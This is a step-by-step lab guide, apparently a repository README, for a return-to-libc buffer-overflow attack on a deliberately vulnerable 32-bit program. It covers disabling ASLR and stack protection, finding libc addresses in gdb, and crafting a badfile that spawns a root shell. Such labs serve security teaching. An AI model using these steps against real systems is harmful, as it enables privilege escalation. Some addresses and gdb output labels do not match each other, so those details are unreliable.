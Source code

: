 # Return-to-libc Attack Guide

## 📌 Step 1: Disable ASLR

ASLR (Address Space Layout Randomization) may affect the stability of the experiment. You can temporarily disable ASLR:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

This ensures that each time `stack` runs, the `libc` load address remains unchanged, making the return-to-libc attack more stable.

## 📌 Step 2: Compile `stack.c`

If your system is 64-bit, you may need to install 32-bit libraries:

```bash
sudo apt-get install gcc-multilib
```

Your `stack.c` code contains a typical buffer overflow vulnerability. First, stack protection needs to be disabled; otherwise, GCC will prevent buffer overflows by default:

```bash
gcc -m32 -fno-stack-protector -z execstack -o stack stack.c
```

### Explanation:
- `-m32` 👉 Compiles as 32-bit code (if your `libc` is 32-bit).
- `-fno-stack-protector` 👉 Disables canary protection.
- `-z execstack` 👉 Allows execution of code on the stack (for shellcode).
- `-o stack` 👉 Generates an executable file named `stack`.

## 📌 Step 3: Run `stack` and Check for Vulnerability

First, run `stack` to ensure it reads `badfile` correctly:

```bash
./stack
```

Since `badfile` has not been created yet, `stack` may output:

```
Segmentation fault (core dumped)
```

However, once `badfile` contains a malicious payload, it may hijack the return address and execute `system("/bin/sh")`, gaining a shell.

## 📌 Step 4: Determine `system()` Address

To execute return-to-libc, you need to find the `system()` function address using `gdb`:

```bash
gdb stack
```

Inside `gdb`, run:

```gdb
(gdb) b foo
(gdb) r
```

Then check the address of `system()`:

```gdb
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e42da0 <system>
```
Record this address (e.g., `0xf7e42da0`) as it will be used to craft the attack payload.

Then check the address of `exit()`:

```gdb
(gdb) p exit
$1 = {<text variable, no debug info>} 0xb7e369d0 <system>
```

You can also locate the address of `"/bin/sh"` in `libc`:

```gdb
(gdb) find 0xf7e00000, 0xf7ffffff, "/bin/sh"
```

It may output:

```
0xf7f4d890
```

Remember the `"/bin/sh"` address.

## 📌 Step 5: Generate `badfile`

The `libc_exploit.py` script is used to craft the attack input. Its core logic is:

```python
sh_addr = 0xbffffdd8     # Address of "/bin/sh"
exit_addr = 0xb7e369d0   # Address of exit()
system_addr = 0xb7e42da0 # Address of system()
```

Modify these values based on the `gdb` output, then run:

```bash
python3 libc_exploit.py
```

This script generates `badfile`, which contains carefully crafted buffer overflow data to hijack the return address and execute:

```c
system("/bin/sh");
```

## 📌 Step 6: Execute `stack`

Run:

```bash
./stack
```

If `badfile` is generated correctly, the program will execute `system("/bin/sh")`, granting you a root shell:

```ini
# id
uid=0(root) gid=0(root) groups=0(root)
```

## 📌 Step 7: Verify the Attack

If `stack` crashes:

- Ensure ASLR is disabled (`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`).
- Verify `system()` and `"/bin/sh"` addresses are correct using `gdb`.
- Make sure the addresses in `libc_exploit.py` match the `gdb` output.
- When running `stack`, check if `badfile` is correctly formatted:

```bash
hexdump -C badfile
```

Ensure that `system()` and `"/bin/sh"` addresses are at the correct positions.

---

**Done! 🎯 You have successfully executed a return-to-libc attack!**

